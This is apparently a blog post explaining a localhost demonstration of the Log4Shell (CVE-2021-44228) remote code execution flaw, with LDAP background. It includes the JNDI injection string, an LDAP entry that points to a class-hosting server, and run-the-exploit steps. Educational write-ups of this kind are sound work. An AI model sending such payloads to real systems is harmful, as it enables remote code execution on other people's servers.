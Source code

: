 ```yaml
---
layout: post
title:  "Log4Shell"
permalink: /log4shell/
tags: java jndi ldap security log4shell log4j
---
```


A demonstration of how the "log4shell" remote code execution vulnerability in log4j.

<!--more-->

My [log4shell](https://github.com/ToastNumber/log4shell) repo contains code to demonstrate this **for educational purposes only**. Read more here: [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/) and here [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).


## How it works

* [`DoJndiLookup`](https://github.com/ToastNumber/log4shell/blob/master/src/main/java/com/kelseymckenna/ldap/DoJndiLookup.java) executes the following statement:
    ```
    LOGGER.info("${jndi:ldap://localhost/cn=log4shell,dc=example,dc=com}");
    ```
* Log4J makes a request to the LDAP server ("localhost" here just for testing) with the filter/query `cn=log4shell,dc=example,dc=com`
* The server returns something like this:
    ```
    dn: cn=log4shell,dc=example,dc=com
    objectClass: javaContainer
    objectClass: javaNamingReference
    cn: log4shell
    javaClassName: foo
    javaFactory: Log4Shell
    javaCodebase: http://localhost:8000
    ```
* It makes a request to the file server (in this case just a Python3 "http.server") at `http://localhost:8000/Log4Shell.class`. It determined the URI using the `javaCodebase` and `javaFactory` attributes.
* The `Log4Shell` class implements `javax.naming.spi.ObjectFactory`. The return value from its `getObjectInstance` method is what gets logged in `DoJndiLookup`. The `getObjectInstance` method can have arbitrary code.


## How to run

1. Install the prerequisites. Adjust the command for your OS.
    ```
    sudo yum install gcc java-1.8.0-openjdk-devel maven -y
    ```
2. Run `make customize-config` OR build an image from the Dockerfile, e.g. `docker build . -t local/log4shell` then run it, e.g `docker run -it local/log4shell sh`.
3. Run
    ```
    make start-slapd
    make add-log4shell-entry
    ./ldap/search.sh "cn=log4shell,dc=example,dc=com"
    make start-http-server
    make run-exploit # You should see "WARNING: This is an arbitrary command run from Log4Shell.java!" in the logs.
    ```

## LDAP

I'll cover the main things I learned. Don't take this as gospel.

LDAP: lightweight directory access protocol.

A "directory" is a **hierarchical database**. For example, you could have an employee in that directory called Joe who works in the Engineering department at Example Company. He would be identified by a **distinguished name** (dn) of `cn=joe,ou=engineering,dc=example,dc=com`; in English that would be "Common Name: Joe, Organizational Unit: Engineering, Company: example.com" (dc means "domain component"). The entries can have attributes too, see below.

You can add entries to the database with the `ldapadd` command, specifying a `ldif` (LDAP Data Interchange Format) file to load the entries from. Entries are separated by empty lines in `ldif` files that look like this:
```
dn: c=US,dc=example,dc=com
objectclass: country
c: US

# other entries ...

dn: cn=Joe Bloggs,ou=Engineering,c=US,dc=example,dc=com
objectclass: organizationalPerson
cn: Joe Bloggs
sn: Bloggs
title: Vice President
```

In this repo I made my organization "example.com", i.e. `dc=example,dc.com`. This means all entries in the database are **descendants** of this entry. For example, I can't add an entry with a distinguished name of `cn=123`, it would need to be `cn=123,dc=example,dc=com`.

Each entry has an **`objectclass`** attribute that determines the **schema** of the entry (see [RFC2256](https://datatracker.ietf.org/doc/html/rfc2256)). For example, there's a built-in `country` object class that has a schema with a mandatory `c` attribute (the two-letter ISO 3166 country code) and some optional attributes. You have to put the mandatory attributes in the distinguished name; the example entry above for US must have a dn of `c=US,dc=example,dc=com`; it couldn't have a dn of `c=GB,dc=example,dc=com` or `x=US,dc=example,dc=com` or `x=1,c=US,dc=example,dc=com`.

Object classes have a **type hierarchy** with the abstract class `top` at the top. You can specify multiple object class attributes for an entry. You'll see in [`log4shell.ldif`](https://github.com/ToastNumber/log4shell/blob/master/ldap/log4shell.ldif) two object classes: `javaContainer` and `javaNamingReference`. The latter object class is the important one - it has the attributes we need for the exploit - but it is an "auxiliary" object class and its parent `javaObject` is an abstract class, so we specify `javaContainer` to give it a concrete ("structural" in LDAP terms) type.

You can **search** the directory like a database too. E.g. to lookup the entry for the US by ID/distinguished name you can run `ldapsearch -x -s base -b 'c=US,dc=example,dc=com'`. Or if you want to list all entries "under" US, e.g. show all departments and employees in US, then you could change `-s base` to `-s sub`. You can filter by the attributes too.

I used **[OpenLDAP](https://www.openldap.org/)** to get a stand-alone LDAP daemon called **slapd**. The Makefile customizes the database to use "example.com" as the root domain instead of "my-domain.com" and adds an "include" to import the java schema in addition to the core schema. 

In order to **modify** the database we have an admin user with the distinguished name `cn=Manager,dc=example,dc=com`. The admin user and password were configured when we originally created the database with `/usr/local/etc/openldap/slapd.ldif`. When you execute commands you can specify the password inline with `-w <password>` and specify the admin user's dn with `-D <dn>`. E.g. `ldapadd -w secret -D "cn=Manager,dc=example,dc=com" -f ldap/log4shell.ldif` will add the entries in `log4shell.ldif` to the database. The default configuration allows **read-only access to all users**.


## Notes

* Fun fact: AWS EC2 instances have a process running that automatically patches vulnerable applications! If you run `ps -ef | grep log4j-cve` you'll see `/usr/bin/log4j-cve-2021-44228-hotpatch` is running. This means JNDI lookups will print `Patched JndiLookup::lookup()` instead. Read more here: https://aws.amazon.com/blogs/opensource/hotpatch-for-apache-log4j/
    * The [`ldap/`](https://github.com/ToastNumber/log4shell/tree/master/ldap) folder has some helper scripts for querying slapd (the LDAP directory server)

